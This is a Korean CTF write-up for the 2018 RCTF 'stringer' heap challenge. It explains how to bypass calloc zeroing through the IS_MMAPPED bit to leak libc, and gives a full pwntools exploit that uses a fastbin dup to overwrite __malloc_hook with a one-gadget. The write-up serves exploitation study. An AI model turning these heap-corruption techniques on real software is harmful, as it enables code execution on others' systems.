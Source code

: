 ```yaml
---
title: "2018 RCTF stringer"
date: 2020-7-6
ctf: RCTF
layout: post
---
```


* calloc trick

show 메뉴가 존재했지만 기능은 없었다. 하지만 new할 때 넣은 content를 출력해준다. 하지만 할당할 때 calloc을 사용해서 할당한다는 점이다. calloc을 사용하게 되면 메모리 영역이 다 초기화 된다는 점이다.

 unsorted bin을 만들고 edit을 이용해서 다음청크의 사이즈 1을 증가시킬 수 있어서 IS_MMAPED를 set해주면 메모리를 초기화 하지 않는다는 점이다. calloc.c 코드에서 볼 수있다.

```c
if (chunk_is_mmapped (p))
  {
    if (__builtin_expect (perturb_byte, 0))
      return memset (mem, 0, sz);

    return mem;
  }
```

 그래서 이를 이용해서 같은 크기로 재할당해서 main_arena+88 주소를 leak할 수 있다. 이후에는 fastbin dup해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stringer')
p = process('./stringer')
libc = e.libc
chunk = 0x0000000000202040

def new(size,content):
	p.sendlineafter(':','1')
	p.sendlineafter(':',str(size))
	p.sendlineafter(':',content)

def edit(idx,idx2):
	p.sendlineafter(':','3')
	p.sendlineafter(':',str(idx))
	p.sendlineafter(':',str(idx2))

def delete(idx):
	p.sendlineafter(':','4')
	p.sendlineafter(':',str(idx))

new(24,'A'*8) # 0 
new(0x100,'B'*8) # 1
new(0x100,'C'*8) # 2
delete(1)
edit(0,24) # set is_mmap
new(0x100,'B'*7) # 1 leak

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - (0x3c4b20 + 88)
log.info('libc_base : {}'.format(hex(libc_base)))
malloc = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc)))
oneshot = libc_base + 0xf02a4
log.info('oneshot : {}'.format(hex(oneshot)))

new(0x60,'a') # 3
new(0x60,'a') # 4
new(0x60,'a') # 5

delete(4)
delete(5)
delete(4)

new(0x60,p64(malloc-0x23))
new(0x60,'b')
new(0x60,'b')
new(0x60,'A'*19+p64(oneshot))

new(0x60,'finish')

p.interactive()
```

# Reference

https://0xpwny.com/2019/03/14/bypass-calloc-zeroing-memory/

https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c#L89

https://github.com/andigena/ptmalloc-fanzine/tree/master/03-scraps

